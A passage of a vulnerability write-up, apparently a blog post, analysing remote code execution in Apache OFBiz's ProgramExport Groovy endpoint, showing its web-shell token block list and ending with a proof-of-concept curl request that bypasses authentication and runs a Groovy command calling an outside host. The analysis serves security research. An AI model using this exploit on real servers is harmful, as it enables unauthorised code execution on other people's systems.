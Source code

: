 A `groovyShell` is initialised and eventually the parameter `groovyProgram` is passed onto groovy shell, effectively getting our code executed. An interesting thing to note is the usage of `org.apache.ofbiz.security.SecuredUpload.isValidText(groovyProgram,["import"])`, which is essentially taking our parameter and along with a second argument which is an array containing the string "import".

**File**: *ofbiz-framework-release18.12.05/framework/security/src/main/java/org/apache/ofbiz/security/SecuredUpload.java*
{% highlight java lineos %}
100:   private static final List<String> DENIEDWEBSHELLTOKENS = deniedWebShellTokens();
.
.
623:   public static boolean isValidText(String content, List<String> allowed) throws IOException {
624:       return DENIEDWEBSHELLTOKENS.stream().allMatch(token -> isValid(content, token, allowed));
625:   }
.
.
644:   private static List<String> deniedWebShellTokens() {
645:       String deniedTokens = UtilProperties.getPropertyValue("security", "deniedWebShellTokens");
646:       return UtilValidate.isNotEmpty(deniedTokens) ? StringUtil.split(deniedTokens, ",") : new ArrayList<>();
647:   }
{%endhighlight%}

isValidText() internally called `DENIEDWEBSHELLTOKENS.stream()` which is nothing but `deniedWebShellTokens()` function which seems to be returning based on some pre-defined property value.

**File**: *ofbiz-framework-release18.12.05/framework/security/config/security.properties*
{% highlight bash lineos %}
deniedWebShellTokens=freemarker,import=\"java,runtime.getruntime().exec(,<%@ page,<script,<body>,<form,php,javascript,%eval,@eval,import os,passthru,exec,shell_exec,assert,str_rot13,system,phpinfo,base64_decode,chmod,mkdir,fopen,fclose,new file,import,upload,getfilename,download,getoutputstring,readfile
{%endhighlight%}

This is a simple blacklist based filtering, bypassing which will give us direct code execution. 

## POC

{% highlight bash lineos %}
curl -vv -X POST "https://localhost:8443/webtools/control/ProgramExport?USERNAME&PASSWORD=test&requirePasswordChange=Y" -d 'groovyProgram=def%20result%20%3D%20%22curl%20https%3A%2F%2Fen3d5squ4eacq.x.pipedream.net%22.execute().text%3B' --insecure
{%endhighlight%}

## References:

1. [packtpub](https://subscription.packtpub.com/book/programming/9781847199188/1/ch01lvl1sec10/locating-an-ofbiz-component){:target="_blank"}

2. [y4tacker.github.io](https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/){:target="_blank"}
